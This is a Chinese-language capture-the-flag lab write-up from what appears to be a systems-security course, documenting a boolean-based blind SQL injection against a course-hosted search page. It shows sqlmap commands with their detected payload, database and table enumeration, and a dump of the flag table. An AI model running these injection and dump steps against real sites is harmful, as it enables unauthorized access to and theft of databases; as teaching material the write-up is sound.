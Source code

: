 ```yaml
---
created: 2025-04-07T19:20:00+08:00
modified: 2025-04-13T23:11:56+08:00
tags:
  - PhD/Course/Systems_Security
title: 攻击-SQL 4
---
```


> [!QUESTION]
> 本实验旨在通过实践让学生掌握 SQL 注入攻击技术, 学生需通过访问一个存在 SQL 查询功能的 Web 界面, 分析并测试该界面的安全漏洞, 探索基础的 SQL 万能密码注入及绕过过滤关键字的可能性, 当无法直接通过常规方法获取数据时, 则需运用布尔盲注技术, 编写并执行 Python 脚本, 通过判断 SQL 语句执行成功与否的返回结果, 逐步推断并获取数据库中敏感信息 (如 flag) 的具体内容, 最终完成攻击目标.

## 1. 漏洞分析过程

### 1.1. 注入点定位

- **目标 URL**: <http://d395b0cd-d62e-404e-8649-85891f603d2a.1.2024.thudart.com/index.php>
- **请求方式**: `POST` 方法
- **注入参数**: `search=answer`
- **响应特征**: 使用 `--not-string="再怎么找也找不到啦(✿◡‿◡)"` 参数标识错误响应特征

### 1.2. 漏洞验证

执行基础探测命令:

```sh
sqlmap --url="http://d395b0cd-d62e-404e-8649-85891f603d2a.1.2024.thudart.com/index.php" --method="POST" --data="search=answer" --level="5" --risk="3" --technique="B"
```

确认存在布尔盲注漏洞:

```
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=answer%' AND 6365=6365 AND 'sIqe%'='sIqe
---
```

## 2. 数据提取过程

### 2.1. 数据库枚举

```bash
sqlmap [...] --dbs
```

获取数据库列表:

```
information_schema
user_data
```

### 2.2. 表结构探测

```bash
sqlmap [...] -D "user_data" --tables
```

发现关键数据表:

```
+------+
| fff  |
| info |
+------+
```

### 2.3. 敏感数据提取

```bash
sqlmap [...] -D "user_data" -T "fff" --dump
```

获取最终 flag:

```
+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 0  | 3c449e54-acb1-4f9b-b646-d034375c2e30 |
+----+--------------------------------------+
```
